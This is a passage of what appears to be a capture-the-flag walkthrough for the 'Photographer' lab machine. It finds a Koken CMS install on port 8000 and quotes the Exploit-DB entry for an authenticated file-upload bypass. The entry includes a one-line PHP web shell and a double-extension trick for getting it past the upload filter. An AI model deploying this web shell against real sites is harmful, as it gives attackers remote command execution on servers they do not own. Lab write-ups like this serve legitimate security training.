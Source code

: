 <br />
Check the landing page source code on port 80.

{% raw %}
```sh
view-source:http://10.0.0.15/

<!DOCTYPE HTML>
<!--
	Photographer by v1n1v131r4
	-->
<html>
	<head>
		<title>Photographer by v1n1v131r4</title>
		<meta charset="utf-8" />
		<meta name="viewport" content="width=device-width, initial-scale=1" />
		<link rel="stylesheet" href="assets/css/main.css" />
	</head>
	<body>

    <snip>

    </body>
</html>
```
{% endraw %}

<br />
Check the landing page on port 8000.  Notice the Koken CMS installation that is running on port 8000.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/photographer/landing8000.png" title="Check the Landing Page on Port 8000" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Check the Exploit-DB for an exploit for the Koken installation.

{% raw %}
```sh
https://www.exploit-db.com/exploits/48706

# Exploit Title: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
# Date: 2020-07-15
# Exploit Author: v1n1v131r4
# Vendor Homepage: http://koken.me/
# Software Link: https://www.softaculous.com/apps/cms/Koken
# Version: 0.22.24
# Tested on: Linux
# PoC: https://github.com/V1n1v131r4/Bypass-File-Upload-on-Koken-CMS/blob/master/README.md

The Koken CMS upload restrictions are based on a list of allowed file extensions (withelist), which facilitates bypass through the handling of the HTTP request via Burp.

Steps to exploit:

1. Create a malicious PHP file with this content:

   <?php system($_GET['cmd']);?>

2. Save as "image.php.jpg"

```